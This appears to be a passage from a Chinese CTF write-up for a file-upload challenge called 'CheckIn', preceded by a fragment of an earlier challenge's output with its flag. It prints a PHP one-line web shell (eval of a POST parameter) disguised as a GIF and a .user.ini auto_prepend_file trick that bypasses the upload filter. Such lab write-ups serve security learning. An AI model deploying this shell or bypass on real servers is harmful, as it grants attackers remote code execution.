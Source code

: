 返结果为：

```
Array ( [0] => 1 ) Array ( [0] => 1flag{36c7b843-6efb-409d-a1fe-3ef54fce7d6d} )
```



## CheckIn

先直接上传图片马，提示文件内容包含`<?`，采用js的写法绕过

```js
<script language="php"> 
eval($_POST[cmd]);
</script>
```

改后缀为PHP、PHP2、PHP3、PHP4、PHP5、Phtml，发现都被过滤

php有一个文件是[.user.ini](https://www.php.net/manual/zh/configuration.file.per-user.php)    [参考连接]([https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html))

![](/pic/70)

先上传一个图片马

```http
Content-Disposition: form-data; name="fileUpload"; filename="1.gif"
Content-Type: image/gif

GIF89a
<script language="php"> 
eval($_POST[cmd]);
</script>
```

上传.htaccess发现没有生效，然后上传.user.ini

```
Content-Disposition: form-data; name="fileUpload"; filename="1.gif"
Content-Type: image/gif

GIF89a
auto_prepend_file=1.gif
```

auto_prepend_file=1.gif  相当于文件夹下所有文件都包含1.gif

返回信息

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Upload Labs</title>
</head>

<body>
    <h2>Upload Labs</h2>
    <form action="index.php" method="post" enctype="multipart/form-data">
        <label for="file">文件名：</label>
        <input type="file" name="fileUpload" id="file"><br>
        <input type="submit" name="upload" value="提交">
    </form>
</body>
```